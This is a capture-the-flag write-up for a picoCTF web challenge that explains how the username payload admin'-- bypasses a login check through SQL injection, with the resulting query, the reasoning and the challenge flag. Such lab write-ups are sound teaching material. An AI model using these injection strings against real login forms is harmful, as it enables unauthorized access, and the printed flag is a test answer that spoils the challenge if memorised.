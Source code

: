 # SQLiLite - 300 pts

### Key points

- SQL Injection

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

---

## Overview

### Description

> Can you login to this website?

SQLi, or SQL Injecton, is a form of code injection into a SQL database to access information that is not intended to be accessed.

We need to login as `admin`.

---

## Solution

If you try to login normally, your username, password, and the SQL query is displayed.

```sql
username: admin
password: pass
SQL query: SELECT * FROM users WHERE name='admin' AND password='pass'

Login failed.
```

Let's try a simple injection to see if there are any filters:

```sql
username: admin'--
password: pass
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='pass'
Logged in! But can you see the flag, it is in plainsight.
```

That was easy. The reason this works is because the quotation in `admin'--` closes off the quotation in the query. The `--` is a comment in SQL, which means the rest of the query is never evaluated. Now, the query simply finds users named `admin`, regardless of the password.

The flag can be found in a hidden `<p>` element. Use the inspector to see it.

---

## Flag

> `picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}`
